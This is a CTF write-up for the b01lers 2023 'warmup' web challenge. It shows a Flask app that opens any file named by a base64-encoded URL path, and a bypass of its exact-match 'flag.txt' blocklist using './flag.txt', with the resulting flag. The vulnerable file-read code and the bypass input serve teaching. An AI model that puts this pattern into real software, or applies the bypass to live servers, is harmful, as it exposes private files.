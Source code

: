 ```yaml
---
layout: default
ctf: "b01lers 2023"
name: "warmup"
description: "Just a My first flask app, I hope you like it"
date: 2023-03-18
category: "Web"
points: 100
solves: 176
tags: ["web", "base64", "file disclosure"]
author: ["quby"]
---
```


# Warmup (100pts, 176 solved)

My first flask app, I hope you like it

[http://ctf.b01lers.com:5115](http://ctf.b01lers.com:5115/)

Author: CygnusX

## Solution

Navigate on website, you will be redirected in `http://ctf.b01lers.com:5115/aW5kZXguaHRtbA==`

Url's path is obviously base64 encoded


```bash
!echo -n "aW5kZXguaHRtbA==" | base64 -d
```

    index.html

Anaylyzing index.html source code:

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>My first flask app</title>
</head>
<body>
    <h1>Hello World!</h1>
</body>
<script>
    console.log("")
</script>
<!-- debug.html -->
</html>
```

We can see that there is a debug.html file:



```bash
!echo -n "debug.html" | base64 
```

    ZGVidWcuaHRtbA==


**NOTE: -n is used to avoid new line**

So we can try to navigate to `http://ctf.b01lers.com:5115/ZGVidWcuaHRtbA==`

It shows us the following text:

`testing rendering for flask app.py`

So we need to go deeper, and try to navigate in app.py


```bash
!echo -n "app.py" | base64 
```

    YXBwLnB5


Navigate to `http://ctf.b01lers.com:5115/YXBwLnB5`, we found website source code:

```python
from base64 import b64decode
import flask

app = flask.Flask(__name__)

@app.route('/<name>')
def index2(name):
    name = b64decode(name)
    if (validate(name)):
        return "This file is blocked!"
    try:
        file = open(name, 'r').read()
    except:
        return "File Not Found"
    return file

@app.route('/')
def index():
    return flask.redirect('/aW5kZXguaHRtbA==')

def validate(data):
    if data == b'flag.txt':
        return True
    return False


if __name__ == '__main__':
    app.run()
```

In order to get the flag, we need to find a way to bypass the validate function.

We can see that the validate function checks if the file is `flag.txt`, so we can try to use `./flag.txt` to bypass the check.


```bash
!echo -n "./flag.txt" | base64
```

   Li9mbGFnLnR4dA==


Navigate to http://ctf.b01lers.com:5115/Li9mbGFnLnR4dA==, we get the flag:

`bctf{h4d_fun_w1th_my_l4st_m1nut3_w4rmuP????!}`
